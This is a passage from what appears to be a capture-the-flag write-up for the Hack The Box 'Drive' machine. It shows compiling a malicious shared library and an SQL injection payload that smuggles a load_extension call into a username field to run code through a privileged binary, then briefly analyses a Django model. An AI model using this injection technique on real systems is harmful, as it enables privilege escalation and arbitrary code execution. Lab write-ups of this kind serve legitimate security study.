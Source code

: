 2. compile it as a shared library

```bash
 gcc -shared -o b.so -fPIC b.c
```

3. run the binary -> login -> select option 5
   ![image](/assets/htb-drive/Pasted_image_20231202065239.png)
4. exit out and cat`/tmp/guys.txt`
   ![image](/assets/htb-drive/Pasted_image_20231202065253.png)

- sql query

```sql
"/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line \'UPDATE accounts_customuser SE T is_active=1 WHERE username=\"\";\'"
```

payload

```bash
"+load_extension(char(46,47,98))+"
46 is . in ascii dec
47 is / in ascii dec
98 is b in ascii dec
```

side node: i tried getting a reverse shell but its broken i couldnt run any commands

# source code analysis

- file object structure

```python
class File(models.Model):
    name = models.CharField(max_length=50 , unique=True)
    file = models.FileField(upload_to=get_upload_path )
    owner  = models.ForeignKey(
        CustomUser,
        on_delete=models.CASCADE,
    )

    block  = models.ForeignKey(CustomUser, null=True,on_delete=models.SET_NULL  ,blank=True , related_name='block')


    content = models.TextField(default="none")
    createdDate  = models.DateTimeField(auto_now_add=True)
    groups = models.ManyToManyField(G)

    def __str__(self):
        return self.name
```

The File object structure has a field called `block` if its null then the `/[id]/block` and /`blockFile` will work
